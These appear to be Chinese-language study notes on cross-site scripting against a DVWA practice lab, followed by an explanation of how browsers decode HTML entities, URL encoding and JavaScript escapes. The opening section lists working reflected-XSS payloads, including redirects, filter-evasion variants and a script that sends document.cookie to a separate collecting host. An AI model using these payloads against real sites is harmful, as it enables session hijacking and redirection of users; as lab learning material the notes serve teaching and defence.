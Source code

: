 

XSS危害
1. 页面重定向
<script>window.location='http://gitbook.cn/'</script>
http:192.168.0.9/dvwa/vulnerablilities/xss_r/?name=<script>window.location='http://gitbook.cn/'</script>
http:192.168.0.9/dvwa/vulnerablilities/xss_r/?name=<scRipt>window.location='http://gitbook.cn/'</scRipt>
http:192.168.0.9/dvwa/vulnerablilities/xss_r/?name=<img src='xss' onerror='alert("hey!")'>
http:192.168.0.9/dvwa/vulnerablilities/xss_r/?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>




2. cookie获取
http://192.168.0.9/dvwa/vulnerabilities/xss_r/?name=<script>new Image().src="http://192.168.0.8/xss.php?output="+document.cookie;</script>


## 浅谈XSS—字符编码和浏览器解析原理
resource:
[浅谈XSS—字符编码和浏览器解析原理](https://security.yirendai.com/news/share/26)
浏览器在解析HTML文档时无论按照什么顺序，主要有三个过程：HTML解析、JS解析和URL解析，每个解析器负责HTML文档中各自对应部分的解析工作
首先浏览器接收到一个HTML文档时，会触发HTML解析器对HTML文档进行词法解析，这一过程完成HTML解码并创建DOM树，接下来JavaScript解析器会介入对内联脚本进行解析，这一过程完成JS的解码工作，如果浏览器遇到需要URL的上下文环境，这时URL解析器也会介入完成URL的解码工作，URL解析器的解码顺序会根据URL所在位置不同，可能在JavaScript解析器之前或之后解析

基本概念
HTML字符实体：

在呈现HTML页面时，针对某些特殊字符如“<”或”>”直接使用，浏览器会误以为它们标签的开始或结束，若想正确的在HTML页面呈现特殊字符就需要用到其对应的字符实体。

字符实体是一个预先定义好的转义序列，它定义了一些无法在文本内容中输入的字符或符号。字符实体以&开头+预先定义的实体名称，以分号结束，如“<”的实体名称为&lt; 或以&开头+#符号以及字符的十进制数字，如”<”的实体编号为&#60;，字符都是有实体编号的但有些字符没有实体名称。

JavaScript编码：最常用的如“\uXXXX”这种写法为Unicode转义序列，表示一个字符，其中xxxx表示一个16进制数字，如”<” Unicode编码为“\u003c”。

URL编码：%加字符的ASCII编码对于的2位16进制数字，如”/”对应的URL编码为%2f。


深入理解
下面我们结合具体示例来讨论下浏览器的解析原理过程和XSS复合编码的一些内容：

      <a href="javascript:alert(1)">test</a>
针对上述a标签我们分析一下该环境中浏览器的解析顺序，首先HTML解析器开始工作，并对href中的字符做HTML解码，接下来URL解析器对href值进行解码，正常情况下URL值为一个正常的URL链接，如：“https://www.yirendai.com“，那么URL解析器工作完成后是不需要其他解码的，但是该环境中URL资源类型为JavaScript，因此该环境中最后一步JavaScript解析器还会进行解码操作，最后解析的脚本被执行。

整个解析顺序为3个环节：HTML解码àURL解码àJS解码

我们对href值做一些编码的转换，对照刚才分析的解析过程，思考一下脚本是否会正常执行？

Test1：URL 编码 "javascript:alert(1)”
URL编码“javascript:alert(1)”=“%6A%61%76%61%73%63%72%69%70%74:%61%6C%65%72%74%28%31%29”
编码后是： <a href="%6A%61%76%61%73%63%72%69%70%74:%61%6C%65%72%74%28%31%29">test1</a>
分析：许多童鞋把Test1放到HTML里发现脚本并没有正常执行，就会想按照刚才分析的，URL解码之后Javascript解析器完成解码操作，脚本应该会正常执行啊，这里就有一个URL解析过程中的一个细节了，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，就导致Test1中被编码的“javascript”没有解码，当然不会被URL解析器识别了

